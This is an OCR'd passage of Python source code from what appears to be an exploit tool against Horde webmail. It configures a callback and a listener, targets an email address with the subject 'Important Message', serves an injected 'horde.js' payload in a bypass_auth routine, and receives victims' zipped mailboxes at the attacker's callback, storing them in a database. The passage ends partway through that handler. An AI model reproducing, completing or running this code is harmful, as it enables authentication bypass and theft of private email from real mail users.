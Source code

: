             # Callback URL
            o = urlparse(args.callback)
            self.callback = {
                'url': '{}://{}'.format(o.scheme, o.netloc),
                'path': ''.join(random.choice(string.ascii_letters) for i in
    range(20))
            }
            # Listener URL
            o = urlparse(args.listener)
            self.listener = {
                'ssl': o.scheme.lower() == 'https',
                'host': o.hostname or '0.0.0.0',
                'port': o.port or 80,
                'horde': ''.join(random.choice(string.ascii_letters) for i in
    range(20))
            }
            # Target email
            self.target = args.target
            # Subject
            self.subject = args.subject or 'Important Message'
            # Environment
            self.env = {}
            self.env['mailbox'] = args.mailbox or 'INBOX'
            self.env['callback'] = '{}/{}'.format(self.callback['url'],
    self.callback['path'])

        def trigger(self):
            print('[*] Waiting for emails...')
            self.bypass_auth()
            print('\n[*] Done')

        def bypass_auth(self):
            def horde():
                f = open('horde.js')
                content = 'env = {};\n\n{}'.format(json.dumps(self.env),
    f.read())
                f.close()
                return content

            def callback():
                response = Response('')
                with sqlite3.connect("database.db") as conn:
                    try:
                        if request.files.get('mbox'):
                            filename =
    request.files.get('mbox').filename.replace('zip', 'mbox')
                            content = request.files.get('mbox').stream.read()
                            zipdata = io.BytesIO()
                            zipdata.write(content)
                            content = zipfile.ZipFile(zipdata)
                            content = content.open(filename).read()
                            mail_hash =  hashlib.sha1(content).digest().hex()
                            print('[+] Received mailbox
    ({})'.format(mail_hash))
                            cursor = conn.cursor()
                            cursor.execute('INSERT INTO mailbox (hash, content)
    VALUES (?, ?)', (mail_hash, content))